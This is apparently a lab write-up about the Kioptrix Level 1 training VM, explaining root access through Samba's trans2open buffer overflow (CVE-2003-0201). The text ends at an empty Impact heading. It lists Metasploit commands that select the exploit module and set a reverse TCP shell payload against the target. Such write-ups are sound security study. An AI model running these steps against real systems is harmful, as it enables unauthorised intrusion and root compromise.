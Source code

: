 # Kioptrix L1: Privilege Escalation using Samba Version

## Summary:
Due to the available version of Samba in Kioptrix, an attacker after enumerate this service can escalate root privileges.

## Technical Details:
The available version of Samba found is 2.2.1a is vulnerable to a buffer overflow called **trans2open** according to this **Common Vulnerabilities and Exposure 2003-0201 [(CVE-2003-0201)](https://www.cvedetails.com/cve/CVE-2003-0201/)** 
using arbitraty code -a payload for example- it is possible to obtain root privileges. 

## Steps to reproduce using metasploit and a terminal:
1) msfconsole
2) search trans2open
3) use 1
4) set RHOSTS <ip_of_kioptrixl1>
5) set payload linux/x86/shell_reverse_tcp
6) run

## Supporting Material:
1) Gaining root privileges:

![samba_trans2open_01.png](./media/samba_trans2open_01.png?raw=true "Gaining root Privilege")

2) Directory listing:

![samba_trans2open_02.png](./media/samba_trans2open_02.png?raw=true "Directory Listing")

3) Accessing to mail server:

![samba_trans2open_03.png](./media/samba_trans2open_03.png?raw=true "Accesing to mail server")

## Impact: